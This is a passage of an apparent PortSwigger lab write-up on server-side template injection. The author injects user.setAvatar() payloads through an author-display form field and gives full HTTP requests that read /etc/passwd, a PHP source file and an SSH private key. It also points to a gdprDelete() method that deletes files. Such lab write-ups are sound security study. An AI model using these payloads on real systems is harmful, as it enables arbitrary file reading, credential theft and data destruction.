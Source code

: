 write down path **/home/carlos/User.php** and method **User->setAvatar**

2.  use the **user.setAvatr** method in preffered name radio selection:
payload:
```
user.setAvatar('/etc/passwd','image/jpg')
```

full request:
```
POST /my-account/change-blog-post-author-display HTTP/1.1

blog-post-author-display=user.setAvatar('/etc/passwd','image/jpg')&csrf=kREzFkT6BeBl098KOV2Z010YfUDGcuSL
```

from the comment open the avatar picture - note a file with etc/passwd content has be downloaded! we can access arbitary files on the system


3. check the requested file (from lab description + cralos homepage):
payload:
```
user.setAvatar('/home/carlos/User.php','image/jpg')
```

full request:
```
POST /my-account/change-blog-post-author-display HTTP/1.1

blog-post-author-display=user.setAvatar('/home/carlos/User.php','image/jpg')&csrf=kREzFkT6BeBl098KOV2Z010YfUDGcuSL
```
note a file downloaded with all the user methods available, one of them is **gdprDelete()** which have a **rm** command - just what we need:
```php
    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }
```

4. check the requested file (from lab description + cralos homepage):
payload:
```
user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
```

full request:
```
POST /my-account/change-blog-post-author-display HTTP/1.1

blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')&csrf=kREzFkT6BeBl098KOV2Z010YfUDGcuSL
```
note a file download with 
```
Nothing to see here :)
```
very funny portswigger :)
